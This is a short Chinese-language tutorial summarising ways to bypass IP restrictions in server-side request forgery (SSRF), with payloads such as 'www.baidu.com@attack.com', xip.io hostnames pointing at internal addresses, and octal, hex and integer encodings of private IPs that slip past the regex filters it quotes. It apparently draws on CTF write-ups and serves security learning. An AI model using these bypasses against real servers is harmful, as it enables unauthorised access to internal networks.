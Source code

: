 # 0x01 前言
通常SSRF里的绕过，是指对请求IP限制的绕过。

# 0x02 绕过方法汇总
## 法一： http基础认证
http基础认证 user@domain.com

情景一： 后端对url进行解析，然后根据解析得到的host结果进行过滤，限制好了只能调用一个固定的域名,如www.baidu.com下的内容

payload：
```
www.baidu.com@attack.com
```

## 法二：xip.io
传送门：http://xip.io/ 。它处理类似[ip].xip.io的dns解析请求时,返回的ip总是指向[ip]。

情景一：单纯请求 www.baidu.com 时

payload1:
```
111.13.100.91.xip.io
```

情景二：后端对请求是否是内网地址做了过滤。

payload2:
```
http://内网ip.xip.io
```

## 法三：IP化妆
情景一： 后端进行了正则匹配的方法过滤内网ip：
```
    ^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$

    ^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$

    ^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$
```
可以对ip进行进制编码，从而绕过。比如对于 192.168.0.1

payload1:
```
    (1)、8进制格式：0300.0250.0.1

    (2)、16进制格式：0xC0.0xA8.0.1

    (3)、10进制整数格式：3232235521

    (4)、16进制整数格式：0xC0A80001

```

利用一些特殊缩写。比如对于：10.0.0.1

payload2：
```
10.1
```

# 0x03 Refference
+ [SSRF漏洞中绕过IP限制的几种方法总结 ](http://www.freebuf.com/articles/web/135342.html)
+ [math1as:CUIT-CTF WriteUp总结](http://www.math1as.com/index.php/archives/70/)